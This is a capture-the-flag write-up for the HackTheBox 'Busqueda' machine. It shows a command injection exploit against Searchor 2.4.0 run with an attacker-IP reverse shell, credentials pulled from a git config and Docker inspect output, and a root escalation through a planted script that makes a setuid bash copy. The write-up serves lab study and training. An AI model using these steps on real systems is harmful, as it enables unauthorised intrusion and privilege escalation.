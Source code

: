 # Busqueda

Busqueda is an Easy Difficulty Linux machine that involves exploiting a command injection vulnerability present in a `Python` module. By leveraging this vulnerability, we gain user-level access to the machine. To escalate privileges to `root`, we discover credentials within a `Git` config file, allowing us to log into a local `Gitea` service. Additionally, we uncover that a system checkup script can be executed with `root` privileges by a specific user. By utilizing this script, we enumerate `Docker` containers that reveal credentials for the `administrator` user\&amp;#039;s `Gitea` account. Further analysis of the system checkup script\&amp;#039;s source code in a `Git` repository reveals a means to exploit a relative path reference, granting us Remote Code Execution (RCE) with `root` privileges.



<figure><img src="../../.gitbook/assets/Busqueda.png" alt=""><figcaption></figcaption></figure>



lets begin with nmap -A 10.10.11.208 :&#x20;

```
nmap -A 10.10.11.208Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-13 10:47 EDT
Stats: 0:00:13 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 49.80% done; ETC: 10:47 (0:00:13 remaining)
Stats: 0:00:24 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 10:47 (0:00:06 remaining)
Nmap scan report for 10.10.11.208
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_ 256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open http Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.37 seconds

```

after edit /etc/hosts and add as searcher.htb

then visit website

<figure><img src="../../.gitbook/assets/1 (2).png" alt=""><figcaption><p>http://searcher.htb/</p></figcaption></figure>

we notice seachor 2.4.0 version

<figure><img src="../../.gitbook/assets/2 (2).png" alt=""><figcaption></figcaption></figure>

lets find exploit or cve for it

I found cve that RCE to it

{% embed url="https://security.snyk.io/vuln/SNYK-PYTHON-SEARCHOR-3166303" %}

here is automation of exploit

{% embed url="https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection.git" %}

lets make the user shell

run command inside exploit folder

```
./exploit.sh searcher.htb <attacker-ip>
```

> note : by default Run the exploit with default port `9001` on attacker host

if you want specific port

```
./exploit.sh searcher.htb <attacker-ip> <attacker-port>
```

user.txt flag

<figure><img src="../../.gitbook/assets/3 (2).png" alt=""><figcaption></figcaption></figure>

lets return to /var/www/app

and ls -la

here is .git

lets see it

<figure><img src="../../.gitbook/assets/4 (2).png" alt=""><figcaption></figcaption></figure>

here is config file lts see it what does have

<figure><img src="../../.gitbook/assets/5 (1).png" alt=""><figcaption></figcaption></figure>

we found credentials and website

1- credentials cody:jh1usoih2bkjaspwe92 and its same user on system svc but cody in website

2- gitea.searcher.htb (add it to /etc/hosts )

<figure><img src="../../.gitbook/assets/6 (1).png" alt=""><figcaption></figcaption></figure>

lets visit cody just for review

<figure><img src="../../.gitbook/assets/7 (1).png" alt=""><figcaption></figcaption></figure>

now lets return to our shell to see the sudoers what we can do as sudo

<figure><img src="../../.gitbook/assets/8.png" alt=""><figcaption></figcaption></figure>

so we have

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
```

here what we can do with it

<figure><img src="../../.gitbook/assets/9.png" alt=""><figcaption></figcaption></figure>

lets do docker-inspect

```
sudo python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq .
```

We found password&#x20;

<figure><img src="../../.gitbook/assets/10.png" alt=""><figcaption></figcaption></figure>

lets try login in as administrator:yuiu1hoiu4i5ho1uh in gitea

works :)!!

<figure><img src="../../.gitbook/assets/11.png" alt=""><figcaption></figcaption></figure>

lets review scripts packege it has root access so from administrator so lets make sudoers as file and make shell with root access

<figure><img src="../../.gitbook/assets/12.png" alt=""><figcaption></figcaption></figure>

permissions as we said

<figure><img src="../../.gitbook/assets/13.png" alt=""><figcaption></figcaption></figure>

```
 echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xcybersoldier\nchmod 4777 /tmp/0xcybersoldier' > full-checkup.sh
```

<figure><img src="../../.gitbook/assets/14.png" alt=""><figcaption></figcaption></figure>

```
sudo python3 /opt/scripts/system-checkup.py full-checkup
[+] Done!
svc@busqueda:/tmp$ ls
ls
0xcybersoldier
full-checkup.sh
snap-private-tmp
svc@busqueda:/$ /tmp/0xcybersoldier -p
/tmp/0xcybersoldier -p
whoami
root
cat /root/root.txt
```

<figure><img src="../../.gitbook/assets/15.png" alt=""><figcaption></figcaption></figure>
